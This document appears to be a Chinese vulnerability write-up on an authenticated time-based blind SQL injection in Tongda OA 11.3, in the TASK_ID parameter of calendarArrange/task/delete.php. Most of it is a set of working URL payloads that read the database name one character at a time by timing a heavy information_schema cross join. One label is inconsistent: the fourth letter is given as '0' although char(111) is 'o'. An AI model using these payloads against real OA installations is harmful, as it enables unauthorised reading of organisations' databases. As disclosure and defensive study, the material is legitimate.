

# 通达 OA 存在 SQL 盲注

## 介绍

通达 OA 11.3 版本存在一个后台 SQL 盲注漏洞,当用户登陆后台后, 可以利用此来读取数据库内容

## 验证

先查看代码 `delete.php` 的代码, 在此处可以看到在程序中直接将 `TASK_ID` 的参数直接带入 SQL 查询, 此时会导致 SQL 注入漏洞的产生


我们先发送一个正常请求, 可以看到对应的时间是 158ms


随后构造对应的 payload : 

```
/general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),1,1))%3dchar(116)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
```

随后发送请求, 我们可以看到这里的时间为 6018 ms


此时如果打开 Mysql 的命令日志, 我们可以在日志中看到对应的执行 SQL 语句


## 获取数据库的名称

payload 合集

1. 第一个字母 :  t

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),1,1))%3dchar(116)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    

2. 第二个字母 : d

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),2,1))%3dchar(100)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    

3. 第三个字母 : _

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),3,1))%3dchar(95)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    

4. 第四个字母 : 0

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),4,1))%3dchar(111)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    

5. 第五个字母 : a

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),5,1))%3dchar(97)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    

6. 第六个字母 : 为空

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),6,1))%3dchar(32)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    

所以对应的数据库名称为 : `td_oa`
